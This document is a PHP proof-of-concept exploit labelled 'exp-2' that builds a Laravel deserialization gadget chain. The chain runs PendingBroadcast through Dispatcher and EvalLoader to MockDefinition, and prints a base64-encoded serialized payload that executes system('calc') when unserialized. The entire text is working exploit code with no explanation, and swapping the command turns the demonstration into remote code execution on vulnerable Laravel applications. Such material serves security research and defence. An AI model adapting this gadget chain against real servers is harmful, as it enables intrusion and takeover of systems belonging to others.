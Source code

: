 
### exp-2
```php
<?php
namespace Symfony\Component\HttpFoundation {
    class Cookie {
        protected $name = "H3rmesk1t";
    }
}

namespace Mockery\Generator {
    use Symfony\Component\HttpFoundation\Cookie;
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct($code) {
            $this->config = new Cookie();
            $this->code = $code;
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition("<?php system('calc');?>");
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
